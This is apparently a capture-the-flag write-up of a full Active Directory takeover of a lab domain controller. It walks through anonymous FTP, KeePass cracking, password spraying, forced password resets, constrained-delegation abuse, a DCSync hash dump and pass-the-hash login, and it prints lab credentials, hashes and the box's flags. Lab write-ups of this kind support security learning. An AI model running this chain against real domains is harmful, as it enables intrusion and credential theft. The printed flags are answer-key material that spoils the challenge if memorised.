


# Redelegate
## Host file setup
```python
sudo nxc smb 10.129.234.50 --generate-hosts-file /etc/hosts                                  
[sudo] password for kali: 
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
```
This has added an entry into /etc/hosts

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT 10.129.234.50                                                            
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-22 15:37 +0000
Nmap scan report for 10.129.234.50
Host is up (0.016s latency).
Not shown: 65507 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
61025/tcp open  unknown
64959/tcp open  unknown
64960/tcp open  unknown
64966/tcp open  unknown
64976/tcp open  unknown
64978/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 11.48 seconds
```

### Nmap
```python
nmap -p 21,53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389 -A --min-rate=2000 -sT dc.redelegate.vl
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-22 15:40 +0000
Nmap scan report for dc.redelegate.vl (10.129.234.50)
Host is up (0.015s latency).
rDNS record for 10.129.234.50: DC.redelegate.vl

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-20-24  01:11AM                  434 CyberAudit.txt
| 10-20-24  05:14AM                 2622 Shared.kdbx
|_10-20-24  01:26AM                  580 TrainingAgenda.txt
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-22 15:40:26Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.redelegate.vl
| Not valid before: 2026-03-21T15:36:18
|_Not valid after:  2026-09-20T15:36:18
|_ssl-date: 2026-03-22T15:40:40+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: REDELEGATE
|   NetBIOS_Domain_Name: REDELEGATE
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: redelegate.vl
|   DNS_Computer_Name: dc.redelegate.vl
|   DNS_Tree_Name: redelegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-22T15:40:32+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 (96%), Microsoft Windows Server 2022 (95%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2019 (92%), Microsoft Windows 10 1703 or Windows 11 21H2 (91%), Microsoft Windows Server 2016 or Server 2019 (91%), Microsoft Windows Server 2012 (91%), Microsoft Windows 10 1703 (90%), Windows Server 2019 (90%), Microsoft Windows 10 1909 - 2004 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Looks like ive got anonymous FTP access

## FTP (21)
```python
ftp dc.redelegate.vl
Connected to DC.redelegate.vl.
220 Microsoft FTP Service
Name (dc.redelegate.vl:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||56810|)
125 Data connection already open; Transfer starting.
10-20-24  01:11AM                  434 CyberAudit.txt
10-20-24  05:14AM                 2622 Shared.kdbx
10-20-24  01:26AM                  580 TrainingAgenda.txt
226 Transfer complete.
ftp> 
```
Found some interesting stuff

Ill transfer all this to my machine, i can do this with `mget`

```python
cat TrainingAgenda.txt 
EMPLOYEE CYBER AWARENESS TRAINING AGENDA (OCTOBER 2024)

Friday 4th October  | 14.30 - 16.30 - 53 attendees
"Don't take the bait" - How to better understand phishing emails and what to do when you see one


Friday 11th October | 15.30 - 17.30 - 61 attendees
"Social Media and their dangers" - What happens to what you post online?


Friday 18th October | 11.30 - 13.30 - 7 attendees
"Weak Passwords" - Why "SeasonYear!" is not a good password 


Friday 25th October | 9.30 - 12.30 - 29 attendees
"What now?" - Consequences of a cyber attack and how to mitigate them
```
Found a potential password `SeasonYear!` hint

Ill use AI to generate me a wordlist

```python
kpcli --kdb Shared.kdbx
Provide the master password: 
```
As seen here is requires a master password

```python
keepass2john ftp/Shared.kdbx | tee -a Shared.kdbx.hash
Shared:$keepass$*2*600000*0*ce7395f413946b0cd279501e510cf8a988f39baca623dd86beaee651025662e6*e4f9d51a5df3e5f9ca1019cd57e10d60f85f48228da3f3b4cf1ffee940e20e01*18c45dbbf7d365a13d6714059937ebad*a59af7b75908d7bdf68b6fd929d315ae6bfe77262e53c209869a236da830495f*9dd2081c364e66a114ce3adeba60b282fc5e5ee6f324114d38de9b4502ca4e19
```
This has generate me a hash to crack 

This still isnt working

After doing some research i found that from FTP you should always install the binary

This may be the issue is that the file itself is corrupted

```python
ftp> bin
200 Type set to I.
ftp> get Shared.kdbx
local: Shared.kdbx remote: Shared.kdbx
229 Entering Extended Passive Mode (|||54798|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************|  2622       33.13 KiB/s    00:00 ETA
226 Transfer complete.
2622 bytes received in 00:00 (33.09 KiB/s)
```
I chnaged the mode and re downloaded it

```python
keepass2john Shared.kdbx > ../kdbx.hash
```
Now i can try to crack it again......

```python
john kdbx.hash --wordlist=seasonyear.txt                                          
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 600000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Fall2024!        (Shared)     
1g 0:00:00:01 DONE (2026-03-22 17:01) 0.9009g/s 49.54p/s 49.54c/s 49.54C/s Autumn2021!..Winter2025!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now its cracked!

```python
kpcli --kdb ftp/Shared.kdbx            
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>
```
Now i have access to the database

```python
kpcli:/Shared> ls
=== Groups ===
Finance/
HelpDesk/
IT/
kpcli:/Shared> cd Finance/
kpcli:/Shared/Finance> ls
=== Entries ===
0. Payrol App                                                             
1. Timesheet Manager                                                      
kpcli:/Shared/Finance> show -a 0

Title: Payrol App
Uname: Payroll
 Pass: cVkqz4bCM7kJRSNlgx2G
  URL: 
Notes: 
Icon#: 0
Creat: 2024-10-20 12:13:50
Modif: 2024-10-20 12:14:11
Xpire: Never

kpcli:/Shared/Finance> show -a 1

Title: Timesheet Manager
Uname: Timesheet
 Pass: hMFS4I0Kj8Rcd62vqi5X
  URL: 
Notes: 
Icon#: 0
Creat: 2024-10-20 12:13:30
Modif: 2024-10-20 12:14:18
Xpire: Never

kpcli:/Shared/Finance> cd ../HelpDesk/
kpcli:/Shared/HelpDesk> ls
=== Entries ===
0. KeyFob Combination                                                     
kpcli:/Shared/HelpDesk> show -a 0

Title: KeyFob Combination
Uname: 
 Pass: 22331144
  URL: 
Notes: 
Icon#: 0
Creat: 2024-10-20 12:12:09
Modif: 2024-10-20 12:12:32
Xpire: Never

kpcli:/Shared/HelpDesk> cd ../IT/
kpcli:/Shared/IT> ls
=== Entries ===
0. FS01 Admin                                                             
1. FTP                                                                    
2. SQL Guest Access                                                       
3. WEB01                                                                  
kpcli:/Shared/IT> show -a 0

Title: FS01 Admin
Uname: Administrator
 Pass: Spdv41gg4BlBgSYIW1gF
  URL: 
Notes: 
Icon#: 0
Creat: 2024-10-20 07:57:02
Modif: 2024-10-20 07:57:21
Xpire: Never

kpcli:/Shared/IT> show -a 1

Title: FTP
Uname: FTPUser
 Pass: SguPZBKdRyxWzvXRWy6U
  URL: 
Notes: Deprecated
Icon#: 0
Creat: 2024-10-20 07:56:20
Modif: 2024-10-20 07:56:58
Xpire: Never

kpcli:/Shared/IT> show -a 2

Title: SQL Guest Access
Uname: SQLGuest
 Pass: zDPBpaF4FywlqIv11vii
  URL: 
Notes: 
Icon#: 0
Creat: 2024-10-20 08:26:48
Modif: 2024-10-20 08:27:09
Xpire: Never

kpcli:/Shared/IT> show -a 3

Title: WEB01
Uname: WordPress Panel
 Pass: cn4KOEgsHqvKXPjEnSD9
  URL: 
Notes: 
Icon#: 0
Creat: 2024-10-20 07:57:24
Modif: 2024-10-20 08:00:25
Xpire: Never

kpcli:/Shared/IT>
```
I now have a bunch of passwords

Ill put all these into a passwords file

```python
cVkqz4bCM7kJRSNlgx2G
hMFS4I0Kj8Rcd62vqi5X
22331144
Spdv41gg4BlBgSYIW1gF
SguPZBKdRyxWzvXRWy6U
zDPBpaF4FywlqIv11vii
cn4KOEgsHqvKXPjEnSD9
```
I can now continue with my enumeration

## HTTP (80)
It appears to be just a default IIS server

After searching for subdomains and hidden directories i found nothing so ill move on from here

## SMB (445)
Null auth is enabled but cannot use it to find users or list shares

Guest account is disabled

## LDAP (389)
No anonymous bind

Not able to do anything with LDAP

Now after reviewing where the creds go i see that port 1433 is open and NMAP MISSED IT!

## MS-SQL (1433)
```python
SQLGuest:zDPBpaF4FywlqIv11vii
```
Ill try these creds on this service

```python
nxc mssql dc.redelegate.vl -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth
MSSQL       10.129.234.50   1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl) (EncryptionReq:False)
MSSQL       10.129.234.50   1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii
```
I can access this service as this user 

Looks like xp_cmdshell is disabled

Ill log in using mssqlclient.py from impacket

```python
mssqlclient.py redelegate.vl/'SQLGuest':'zDPBpaF4FywlqIv11vii'@dc.redelegate.vl
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (SQLGuest  guest@master)> select name from master..sysdatabases;
name     
------   
master   
tempdb   
model    
msdb     
SQL (SQLGuest  guest@master)> 
```
These are just default DBs

Ill still have a look through

### Dumping users and groups
```python
msf auxiliary(admin/mssql/mssql_enum_domain_accounts) > run
[*] Running module against 10.129.234.50
[*] 10.129.234.50:1433 - Attempting to connect to the database server at 10.129.234.50:1433 as SQLGuest...
[+] 10.129.234.50:1433 - Connected.
[*] 10.129.234.50:1433 - SQL Server Name: WIN-Q13O908QBPG
[*] 10.129.234.50:1433 - Domain Name: REDELEGATE
[+] 10.129.234.50:1433 - Found the domain sid: 010500000000000515000000a185deefb22433798d8e847a
[*] 10.129.234.50:1433 - Brute forcing 10000 RIDs through the SQL Server, be patient...
[*] 10.129.234.50:1433 -  - WIN-Q13O908QBPG\Administrator
[*] 10.129.234.50:1433 -  - REDELEGATE\Guest
[*] 10.129.234.50:1433 -  - REDELEGATE\krbtgt
[*] 10.129.234.50:1433 -  - REDELEGATE\Domain Admins
[*] 10.129.234.50:1433 -  - REDELEGATE\Domain Users
[*] 10.129.234.50:1433 -  - REDELEGATE\Domain Guests
[*] 10.129.234.50:1433 -  - REDELEGATE\Domain Computers
[*] 10.129.234.50:1433 -  - REDELEGATE\Domain Controllers
[*] 10.129.234.50:1433 -  - REDELEGATE\Cert Publishers
[*] 10.129.234.50:1433 -  - REDELEGATE\Schema Admins
[*] 10.129.234.50:1433 -  - REDELEGATE\Enterprise Admins
[*] 10.129.234.50:1433 -  - REDELEGATE\Group Policy Creator Owners
[*] 10.129.234.50:1433 -  - REDELEGATE\Read-only Domain Controllers
[*] 10.129.234.50:1433 -  - REDELEGATE\Cloneable Domain Controllers
[*] 10.129.234.50:1433 -  - REDELEGATE\Protected Users
[*] 10.129.234.50:1433 -  - REDELEGATE\Key Admins
[*] 10.129.234.50:1433 -  - REDELEGATE\Enterprise Key Admins
[*] 10.129.234.50:1433 -  - REDELEGATE\RAS and IAS Servers
[*] 10.129.234.50:1433 -  - REDELEGATE\Allowed RODC Password Replication Group
[*] 10.129.234.50:1433 -  - REDELEGATE\Denied RODC Password Replication Group
[*] 10.129.234.50:1433 -  - REDELEGATE\SQLServer2005SQLBrowserUser$WIN-Q13O908QBPG
[*] 10.129.234.50:1433 -  - REDELEGATE\DC$
[*] 10.129.234.50:1433 -  - REDELEGATE\FS01$
[*] 10.129.234.50:1433 -  - REDELEGATE\Christine.Flanders
[*] 10.129.234.50:1433 -  - REDELEGATE\Marie.Curie
[*] 10.129.234.50:1433 -  - REDELEGATE\Helen.Frost
[*] 10.129.234.50:1433 -  - REDELEGATE\Michael.Pontiac
[*] 10.129.234.50:1433 -  - REDELEGATE\Mallory.Roberts
[*] 10.129.234.50:1433 -  - REDELEGATE\James.Dinkleberg
[*] 10.129.234.50:1433 -  - REDELEGATE\Helpdesk
[*] 10.129.234.50:1433 -  - REDELEGATE\IT
[*] 10.129.234.50:1433 -  - REDELEGATE\Finance
[*] 10.129.234.50:1433 -  - REDELEGATE\DnsAdmins
[*] 10.129.234.50:1433 -  - REDELEGATE\DnsUpdateProxy
[*] 10.129.234.50:1433 -  - REDELEGATE\Ryan.Cooper
[*] 10.129.234.50:1433 -  - REDELEGATE\sql_svc
```
Here ive dumped the users

```python
sql_svc
ryan.cooper
james.dinkleberg
mallory.roberts
michael.pontiac
helen.frost
marie.curie
christine.flanders
FS01$
DC01$
Guest
krbtgt
Administrator
```
I can now use this to enumerate further

## Password spray leads to user compromise
So i have all the passwords in a file and now a user list so ill do a password spray

```python
nxc smb dc.redelegate.vl -u users.txt -p passwords.txt --continue-on-success

SMB         10.129.234.50   445    DC               [+] redelegate.vl\marie.curie:Fall2024!
```
Found a valid user

```python
nxc smb dc.redelegate.vl -u 'marie.curie' -p 'Fall2024!' --shares            
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.50   445    DC               [+] redelegate.vl\marie.curie:Fall2024! 
SMB         10.129.234.50   445    DC               [*] Enumerated shares
SMB         10.129.234.50   445    DC               Share           Permissions     Remark
SMB         10.129.234.50   445    DC               -----           -----------     ------
SMB         10.129.234.50   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.50   445    DC               C$                              Default share
SMB         10.129.234.50   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.50   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.50   445    DC               SYSVOL          READ            Logon server share
```
No interesting permissions on shares

At this point i think it might be a good idea to get bloodhound data

This user does not have access over winrm or RDP

## Bloodhound

I have ForceChangePassword over several different users which means these users are all compromised


This is the most interesting user, all the others have no interesting groups and no outbound object control

## Compromising `helen.frost`
```python
net rpc password "helen.frost" 'Password123!' -U "redelegate.vl"/"marie.curie"%'Fall2024!' -S "dc.redelegate.vl"
```
This changed the users password

```python
nxc smb dc.redelegate.vl -u helen.frost -p 'Password123!'                   
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.50   445    DC               [+] redelegate.vl\helen.frost:Password123!
```
As seen here the password has now been changed and the user has been compromised

Also worth noting this user is part of the remote management users group

### Evil-winrm as `helen.frost`
```python
evil-winrm -i dc.redelegate.vl -u helen.frost -p 'Password123!'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Helen.Frost\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Helen.Frost\Desktop> dir


    Directory: C:\Users\Helen.Frost\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         3/22/2026   8:37 AM             34 user.txt


*Evil-WinRM* PS C:\Users\Helen.Frost\Desktop> type user.txt
||1f50c83f1c03ec3eed5fb4f2ac08990c||
*Evil-WinRM* PS C:\Users\Helen.Frost\Desktop> 
```
I now have an active session on the domain controller

## Domain admin

### Resource based constrained delegation
Here i cannot make a computer account because the maq is set to 0 so ill have to set this up with `FS01$`

```python
*Evil-WinRM* PS C:\Users\Helen.Frost\Desktop> Set-ADAccountControl -Identity "FS01$" -TrustedToAuthForDelegation $True
*Evil-WinRM* PS C:\Users\Helen.Frost\Desktop> Set-ADObject -Identity "CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL" -Add @{"msDS-AllowedToDelegateTo"="ldap/dc.redelegate.vl"}
```
This setup the delegation

```python
net rpc password "FS01$" 'Password123!' -U "redelegate.vl"/"helen.frost"%'Password123!' -S "dc.redelegate.vl"
```
This changed the password of the machine account

```python
nxc smb dc.redelegate.vl -u 'FS01$' -p 'Password123!'                                                        
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.50   445    DC               [+] redelegate.vl\FS01$:Password123!
```
The creds have now been changed

Now that the delegation has already been setup i can jump straight to using `getST.py`

```python
getST.py -spn 'ldap/dc.redelegate.vl' -impersonate 'DC$' 'redelegate.vl/FS01$:Password123!'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC$@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
```
Now i can export this ccache and impersonate the DC$ machine account and perform DCSync

```python
export KRB5CCNAME=DC\$@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
```

```python
secretsdump.py -k -no-pass -dc-ip "10.129.234.50" @dc.redelegate.vl 
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ec17f7a2a4d96e177bfd101b94ffc0a7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9288173d697316c718bb0f386046b102:::
Christine.Flanders:1104:aad3b435b51404eeaad3b435b51404ee:79581ad15ded4b9f3457dbfc35748ccf:::
Marie.Curie:1105:aad3b435b51404eeaad3b435b51404ee:a4bc00e2a5edcec18bd6266e6c47d455:::
Helen.Frost:1106:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Michael.Pontiac:1107:aad3b435b51404eeaad3b435b51404ee:f37d004253f5f7525ef9840b43e5dad2:::
Mallory.Roberts:1108:aad3b435b51404eeaad3b435b51404ee:980634f9aabfe13aec0111f64bda50c9:::
James.Dinkleberg:1109:aad3b435b51404eeaad3b435b51404ee:2716d39cc76e785bd445ca353714854d:::
Ryan.Cooper:1117:aad3b435b51404eeaad3b435b51404ee:062a12325a99a9da55f5070bf9c6fd2a:::
sql_svc:1119:aad3b435b51404eeaad3b435b51404ee:76a96946d9b465ec76a4b0b316785d6b:::
DC$:1002:aad3b435b51404eeaad3b435b51404ee:bfdff77d74764b0d4f940b7e9f684a61:::
FS01$:1103:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:db3a850aa5ede4cfacb57490d9b789b1ca0802ae11e09db5f117c1a8d1ccd173
Administrator:aes128-cts-hmac-sha1-96:b4fb863396f4c7a91c49ba0c0637a3ac
Administrator:des-cbc-md5:102f86737c3e9b2f
krbtgt:aes256-cts-hmac-sha1-96:bff2ae7dfc202b4e7141a440c00b91308c45ea918b123d7e97cba1d712e6a435
krbtgt:aes128-cts-hmac-sha1-96:9690508b681c1ec11e6d772c7806bc71
krbtgt:des-cbc-md5:b3ce46a1fe86cb6b
Christine.Flanders:aes256-cts-hmac-sha1-96:ceb5854b48f9b203b4aa9a8e0ac4af28b9dc49274d54e9f9a801902ea73f17ba
Christine.Flanders:aes128-cts-hmac-sha1-96:e0fa68a3060b9543d04a6f84462829d9
Christine.Flanders:des-cbc-md5:8980267623df2637
Marie.Curie:aes256-cts-hmac-sha1-96:616e01b81238b801b99c284e7ebcc3d2d739046fca840634428f83c2eb18dbe8
Marie.Curie:aes128-cts-hmac-sha1-96:daa48c455d1bd700530a308fb4020289
Marie.Curie:des-cbc-md5:256889c8bf678910
Helen.Frost:aes256-cts-hmac-sha1-96:6df13a248e2ce1460004d7dcce5c4f8a30ea2c53e2c7d3ef712410f102cacf61
Helen.Frost:aes128-cts-hmac-sha1-96:884020e4824c0f50e596ba7a5d635634
Helen.Frost:des-cbc-md5:1a26f249a80d70df
Michael.Pontiac:aes256-cts-hmac-sha1-96:eca3a512ed24bb1c37cd2886ec933544b0d3cfa900e92b96d056632a6920d050
Michael.Pontiac:aes128-cts-hmac-sha1-96:53456b952411ac9f2f3e2adf433ab443
Michael.Pontiac:des-cbc-md5:833dc82fab76c229
Mallory.Roberts:aes256-cts-hmac-sha1-96:c9ad270adea8746d753e881692e9a75b2487a6402e02c0c915eb8ac6c2c7ab6a
Mallory.Roberts:aes128-cts-hmac-sha1-96:40f22695256d0c49089f7eda2d0d1266
Mallory.Roberts:des-cbc-md5:cb25a726ae198686
James.Dinkleberg:aes256-cts-hmac-sha1-96:c6cade4bc132681117d47dd422dadc66285677aac3e65b3519809447e119458b
James.Dinkleberg:aes128-cts-hmac-sha1-96:35b2ea5440889148eafb6bed06eea4c1
James.Dinkleberg:des-cbc-md5:83ef38dc8cd90da2
Ryan.Cooper:aes256-cts-hmac-sha1-96:d94424fd2a046689ef7ce295cf562dce516c81697d2caf8d03569cd02f753b5f
Ryan.Cooper:aes128-cts-hmac-sha1-96:48ea408634f503e90ffb404031dc6c98
Ryan.Cooper:des-cbc-md5:5b19084a8f640e75
sql_svc:aes256-cts-hmac-sha1-96:1decdb85de78f1ed266480b2f349615aad51e4dc866816f6ac61fa67be5bb598
sql_svc:aes128-cts-hmac-sha1-96:88f45d60fa053d62160e8ea8f1d0231e
sql_svc:des-cbc-md5:970d6115d3f4a43b
DC$:aes256-cts-hmac-sha1-96:0e50c0a6146a62e4473b0a18df2ba4875076037ca1c33503eb0c7218576bb22b
DC$:aes128-cts-hmac-sha1-96:7695e6b660218de8d911840d42e1a498
DC$:des-cbc-md5:3db913751c434f61
FS01$:aes256-cts-hmac-sha1-96:c8142b9998787102dc1d596190bc28b16a1787f24e956d0a204077efc31117ba
FS01$:aes128-cts-hmac-sha1-96:48bcef06410264d5d28d91d7d8eb7cd1
FS01$:des-cbc-md5:1f8058fde68a58df
[*] Cleaning up...
```
Ive dumped all the hashes using DCSync privs

```python
evil-winrm -i dc.redelegate.vl -u Administrator -H 'ec17f7a2a4d96e177bfd101b94ffc0a7'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         3/22/2026   8:37 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
||8eee7c9d4e7797df3ef939146b939ca2||
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Domain admin!
